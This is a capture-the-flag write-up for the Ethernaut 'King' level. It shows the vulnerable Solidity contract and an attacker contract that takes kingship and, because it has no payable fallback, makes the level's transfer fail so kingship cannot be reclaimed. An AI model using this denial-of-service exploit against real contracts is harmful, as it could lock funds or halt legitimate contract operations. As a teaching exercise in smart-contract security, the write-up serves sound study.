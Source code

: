## Ethernaut Level 09 - King - Write-Up
<!--Authors: OofedUp-->

Difficulty: 6/10

Objective: When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

![image](https://i.imgur.com/SwYCdF9.png)

## Source
```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

We have to first become king by triggering the fallback function with a value higher than `prize` (which at first is 1 ETH).

After we become king, we must somehow make the fallback function fail when the level gets submitted. We can cause a fail here:

```javascript
king.transfer(msg.value);
```

By becoming king from a contract which has a non payable fallback function (or doesn't have fallback function at all), `king.transfer(msg.value)` will fail, because `address.transfer` will throw an error on failure, unlike `address.send`.

Here's the contract I used:

```javascript

interface King{

}

contract KingForever{
    King game;
    address target = 0x98f6e460cb28479dcbcf8a2fc40a28d260db486b;
    address public owner;

    function KingForever() payable{
        game = King(target);
        owner = msg.sender;
    }

    function becomeKing(){
        target.call.value(1.00001 ether)( );
    }

    function(){
        //Not payable causes error
    }

    function getBack() public{
        require(msg.sender == owner);
        owner.send(this.balance);
    }
}
```

Keep in mind we need to transfer the contract `1.00001` on creation, so it can pay the King contract. After we call the `becomeKing()` function we can submit the instance since it will fail:

![image](https://i.imgur.com/n4ES9Q8.png)
